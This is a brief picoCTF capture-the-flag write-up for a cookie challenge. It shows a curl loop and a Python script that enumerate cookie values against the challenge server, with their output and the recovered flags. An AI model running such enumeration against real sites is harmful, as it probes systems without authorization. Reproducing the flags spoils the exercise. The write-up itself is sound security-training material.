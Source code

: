 ## Objetivo 

Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:6418/](http://mercury.picoctf.net:6418/)
## Solución  

```java

┌──(kali㉿kali)-[~]
└─$ for i in {0..30}; do curl -s http://mercury.picoctf.net:6418/check -H "Cookie: name=$i"; done | grep "picoCTF{"
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_88acab36}</code></p>
                                                                                                                    
┌──(kali㉿kali)-[~]
└─$ 

```


## Solucion 2



```java


──(kali㉿kali)-[~]
└─$ nano cookies.py
                                                                                                                    
┌──(kali㉿kali)-[~]
└─$ cat cookies.py                                
import requests
import re

url = "http://mercury.picoctf.net:17781/check"

for i in range(20):
        print(i)
        cookies = {'name':f'{i}'}
        r = requests.get(url, cookies=cookies)
        if 'picoCTF{' in r.text:
                flag = re.findall('picoCTF\\{.*?\\}',r.text)
                print(flag)
                                                                                                                    
┌──(kali㉿kali)-[~]
└─$ python cookies.py   
0
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
['picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}']
19
                      
```
## Notas Adicionales 



### Referencias